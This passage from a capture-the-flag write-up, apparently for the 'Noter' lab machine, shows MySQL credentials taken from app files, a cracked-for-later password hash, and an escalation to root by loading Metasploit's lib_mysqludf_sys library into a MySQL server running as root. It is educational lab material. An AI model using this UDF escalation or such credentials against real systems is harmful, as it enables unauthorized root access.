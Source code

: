 ## In the machine as svc

First of all we can retrieve the MySQL database credentials from the application file:

```python
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
```

Also, looking into the old backup I found the credentials for the MySQL root user:
```python
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
```

Using any of the credentials above it is possible to get the `blue` user password hash:
```
$5$rounds=535000$76NyOgtW18b3wIqL$HZqlzNHs1SdzbAb2V6EyAnqYNskA3K.8e1iDesL5vI2
```
Maybe we can try to crack it but for now, let's get the user flag under `/home/svc/user.txt` and create an SSH key pair to get a more stable SSH terminal.

## Getting root

To be honest I spent more time than I'm willing to admit here. First of all, cheking for the user running the MySQL server we can see it is actually `root`:

```bash
svc@noter:~$ cat mysql_service 
● mysql.service - LSB: Start and stop the mysql database server daemon
     Loaded: loaded (/etc/init.d/mysql; generated)
     Active: active (running) since Thu 2022-05-26 11:36:32 UTC; 1 day 8h ago
       Docs: man:systemd-sysv-generator(8)
    Process: 950 ExecStart=/etc/init.d/mysql start (code=exited, status=0/SUCCESS)
      Tasks: 56 (limit: 4617)
     Memory: 270.3M
     CGroup: /system.slice/mysql.service
             ├─1058 /bin/sh /usr/bin/mysqld_safe
             ├─1178 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
             └─1179 logger -t mysqld -p daemon error
```

Since we can have the credentials for the MySQL `root` user we can try to scale using a malicious library. We can use `lib_mysqludf_sys` from Metasploit, in Kali is located here:

```
# The target system is a 64 bits one
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so
```

Using Netcat or a simple HTTP server I moved the library to `/home/svc` in the target machine and now we can start with the [trick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library){:target="_blank"}. Login to MySQL using the `root` user with the credentials found earlier and then we can load the library and get a reverse shell as `root`:
